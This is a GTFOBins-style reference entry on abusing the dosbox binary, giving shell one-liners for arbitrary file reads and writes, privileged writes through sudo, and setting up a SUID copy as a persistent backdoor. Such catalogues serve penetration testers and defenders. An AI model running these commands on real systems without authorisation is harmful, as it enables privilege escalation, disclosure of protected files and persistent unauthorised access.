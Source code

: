 # GTFOBin: dosbox

Basically `dosbox` allows to mount the local file system, so that it can be altered using DOS commands. Note that the DOS filename convention (8.3) is used.

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

Note that the name of the written file in the following example will be `FILE_TO_`. Also note that `echo` terminates the string with a DOS-style line terminator (`\r\n`), if that’s a problem and your scenario allows it, you can create the file outside `dosbox`, then use `copy` to do the actual write.

```
LFILE='\path\to\file_to_write'
dosbox -c 'mount c /' -c "echo DATA >c:$LFILE" -c exit
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file content will be displayed in the DOSBox graphical window.

```
LFILE='\path\to\file_to_read'
dosbox -c 'mount c /' -c "type c:$LFILE"
```

The file is copied to a readable location.

```
LFILE='\path\to\file_to_read'
dosbox -c 'mount c /' -c "copy c:$LFILE c:\tmp\output" -c exit
cat '/tmp/OUTPUT'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Note that the name of the written file in the following example will be `FILE_TO_`. Also note that `echo` terminates the string with a DOS-style line terminator (`\r\n`), if that’s a problem and your scenario allows it, you can create the file outside `dosbox`, then use `copy` to do the actual write.

```
sudo install -m =xs $(which dosbox) .

LFILE='\path\to\file_to_write'
./dosbox -c 'mount c /' -c "echo DATA >c:$LFILE" -c exit
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Note that the name of the written file in the following example will be `FILE_TO_`. Also note that `echo` terminates the string with a DOS-style line terminator (`\r\n`), if that’s a problem and your scenario allows it, you can create the file outside `dosbox`, then use `copy` to do the actual write.

```
LFILE='\path\to\file_to_write'
sudo dosbox -c 'mount c /' -c "echo DATA >c:$LFILE" -c exit
```
